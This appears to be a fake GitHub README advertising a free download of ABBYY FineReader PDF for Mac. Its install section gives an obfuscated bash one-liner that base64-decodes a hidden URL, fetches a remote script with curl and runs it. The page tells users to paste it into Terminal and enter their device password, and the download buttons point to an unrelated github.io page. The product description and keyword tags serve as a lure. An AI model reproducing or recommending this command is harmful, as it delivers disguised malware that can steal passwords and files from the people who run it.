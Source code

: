 # 🧾 ABBYY FineReader PDF for Mac — Advanced OCR and PDF Solution for macOS

ABBYY FineReader PDF for Mac is a powerful OCR and PDF editing software designed for macOS users. It enables accurate text recognition, PDF editing, and document conversion with support for over 190 languages, making it ideal for professionals who require precision and efficiency.

## ✅ Download ABBYY FineReader PDF for Mac  
[![Download ABBYY FineReader PDF](https://img.shields.io/badge/Download-ABBYY%20FineReader%20PDF-blueviolet)](https://shuziktobehuman.github.io/huja/ABBYY)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 📦 What is ABBYY FineReader PDF for Mac?

ABBYY FineReader PDF for Mac combines optical character recognition with comprehensive PDF editing tools. It allows users to digitize paper documents, edit PDFs, and convert files into various editable formats with outstanding accuracy on macOS.

---

## ✨ Features

- 🔍 OCR technology supporting recognition in 198 languages  
- 📝 Edit, comment, and annotate PDF documents  
- 🔄 Convert PDFs and scanned documents to Word, Excel, and more  
- 🖥️ Optimized native macOS app with Retina display support  
- 🔐 Protect PDFs with passwords and permissions  
- 📚 Compare document versions to identify changes  
- 📤 Export and share documents easily  

---

## 💡 Why Use ABBYY FineReader PDF for Mac?

- ✅ Industry-leading OCR accuracy for flawless text recognition  
- 🧾 Simplifies PDF editing and document conversion workflows  
- 🌍 Supports a wide range of languages for global users  
- 🔐 Secure your documents with advanced protection features  
- 📲 Seamlessly works across Mac devices for convenience  

---

[![Download ABBYY FineReader PDF](https://img.shields.io/badge/Download-ABBYY%20FineReader%20PDF-blueviolet)](https://shuziktobehuman.github.io/huja/ABBYY)

---

## 🖼️ Preview

![ABBYY FineReader Screenshot 1](https://pdf.abbyy.com/media/j3ue3kxc/06-enhance-photos-and-scans-with-built-in-editor.png)  
![ABBYY FineReader Screenshot 2](https://pdf.abbyy.com/media/lvsp4crd/02-recognize-text-in-docs-in-198-languages.png)

---

## 📌 Tags

abbyy finereader pdf for mac, abbyy finereader mac, finereader mac, abbyy finereader mac os, fine reader for mac,  
fine reader mac, finereader pdf for windows and mac, finereader pro, fine reader pro, finereader pdf for mac,  
abbyy for mac, abbyy finereader 15 for mac, abbyy finereader 15 mac, abbyy finereader pdf mac, abbyy finereader pro mac,  
abbyy ocr mac, finereader ocr pro mac, finereader pro mac, abbyy finereader mac download

